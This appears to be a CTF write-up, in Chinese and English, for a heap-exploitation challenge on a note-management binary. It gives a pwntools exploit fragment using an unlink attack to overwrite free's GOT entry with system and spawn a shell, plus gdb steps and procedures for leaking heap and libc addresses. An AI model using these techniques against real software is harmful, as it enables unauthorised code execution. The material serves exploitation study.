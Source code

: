 ```python
    fd = leakheapaddr - 0x1808 #notetable
    bk = fd + 0x8


    payload  = ""
    payload += p64(0x0) + p64(notelen+1) + p64(fd) + p64(bk) + "A" * (notelen - 0x20)
    payload += p64(notelen) + p64(notelen+0x10) + "A" * notelen
    payload += p64(0) + p64(notelen+0x11)+ "\x00" * (notelen-0x20)

    new_note(payload)

    delete_note(1)

    free_got = 0x602018

    payload2 = p64(notelen) + p64(1) + p64(0x8) + p64(free_got) + "A"*16 + p64(binsh_addr)
    payload2 += "A"* (notelen*3-len(payload2)) 

    edit_note(0, payload2)
    edit_note(0, p64(system_sh_addr))

    delete_note(1)

    p.interactive()
        
```

## 泄露libc基址的方法:
- 运行脚本程序  python -m pdb myexp.py   (过程中会打印出进程号xxx)
- gdb attach  xxx
    - vmmap 查看内存分布
    - p main_arena
    - p main_arena.bins[0]
    - p &main_arena.bins[0]
- 通过泄露unsort_bin 地址，我们来计算libc函数基址以及system 函数地址

### leaking a heap address is fairly simple though:
1. Allocate 4 chunks.
2. Free chunk 3 and chunk 1 (in that order, so that malloc writes the two pointers into chunk 1).
3. Allocate another chunk of size 1 (or 8). This chunk will be placed where chunk 1 used to be and 
   where its FD and BK pointers still are, with the BK pointer pointing to chunk 3.
4. Print the notes, since this is a %s print, we can leak the FD (or BK if chosen size in step 3 was 8)
   pointer of chunk 1 which in our case points to chunk 3 (heap memory).
   
> This same technique can be used to leak a libc address (the head of the freelist is in the .bss of the libc). Simply follow the same steps, but now it suffices to allocate chunks 1 and 2 and free the first. 


### 对漏洞利用步骤：
我们通过新建两个note,然后free(0),再new_note("aaaaaaaa"),在new_note时unsorted_bin 双向链表中只有free的note0,当再次申请堆内存时，就会重新获取trunk0, "aaaaaaaa"就会覆盖trunk0的fd，list_note()就会泄露trunk0的bk，而bk指向的是main_arena中的unsort_bin 首地址(就是p &main_arena.bins[0]地址减去0x10)， 可以算出libc_base的地址，从而确定libc中函数的地址。 

